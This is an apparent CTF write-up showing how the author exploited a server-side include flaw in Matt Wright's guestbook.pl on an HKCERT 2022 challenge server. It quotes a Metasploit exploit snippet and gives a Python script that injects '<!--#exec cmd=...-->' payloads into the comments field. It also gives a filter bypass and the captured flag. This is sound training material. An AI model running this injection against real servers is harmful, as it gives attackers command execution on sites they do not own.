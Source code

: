 # CVE 1999

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

[Old news](https://www-info-gov-hk.translate.goog/gia/general/200002/24/0224258.htm?_x_tr_sl=zh-TW&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) is so existing

Web: [http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html) , [http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html)

Remark: The guestbook will be cleaned up per minute

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231222.png)

In here, we can see this is a **guestbook which created by Matt Wright**.

**addguest.html:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231430.png)

**Also, we can send a POST request to `/~matt/cgi-bin/guestbook.pl`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231506.png)

**Let's use `searchsploit` to see is there any public exploits!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit Matt Wright Guestbook
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Matt Wright Guestbook 2.3.1 - Guestbook.pl Multiple HTML Injection Vulne | cgi/webapps/27594.txt
The Matt Wright Guestbook.pl - Arbitrary Command Execution (Metasploit)  | cgi/webapps/16914.rb
The Matt Wright Guestbook.pl 2.3.1 - Server-Side Include                 | cgi/webapps/9907.rb
------------------------------------------------------------------------- ---------------------------------
```

**Looks like it's vulnerable to Server-Side Include (SSI)!**

**We can use `searchsploit -m` to mirror the exploit script:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit -m 16914
```

**Snipped `16914.rb` exploit script:**
```ruby
	def exploit
		realname	= rand_text_alphanumeric(20)
		email		= rand_text_alphanumeric(20)
		city		= rand_text_alphanumeric(20)
		state		= rand_text_alphanumeric(20)
		country 	= rand_text_alphanumeric(20)

		sploit = Rex::Text.uri_encode("<!--#exec cmd=\"" + payload.encoded.gsub('"','\"') + "\"", 'hex-normal')

		req1 = send_request_cgi({
			'uri'     => datastore['URI'],
			'method'  => 'POST',
			'data'    => "realname=#{realname}&username=#{email}&city=#{city}&state=#{state}&country=#{country}&comments=#{sploit}",
		}, 25)

		req2 = send_request_raw({
			'uri'     => datastore['URIOUT'],
		}, 25)

	end
```

**Hmm... Looks like the `<!--#exec cmd="payload_here"` is the payload!**

**Let's write a simple python script to automate that!**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': ''.join(random.choices(string.ascii_letters, k=20)),
	'comments': payload
}
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	#requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 chal_automate.py '<!--#exec cmd="/bin/ls /"'
```

**Now, when you refresh the `guessbook.html` page, you should see all the files in the target machine!**

> Note1: Although I get the flag, I have no idea why the exploit sometimes work, sometimes didn't work.

> Note2: After the CTF, [Kaiziron](https://twitter.com/kaiziron) said that the reason why it happens is because this:

```
$value =~ s/<!--(.|\n)*-->//g;
```

> To get the payload working, we need to put `-->` on another field to close the payload.


- **Flag: `hkcert22{DiDu_c0opy_others_FLags_or_c0rnment_brb_Tags}`**

# Conclusion

What we've learned:

1. Exploiting Server-Side Include Vulnerability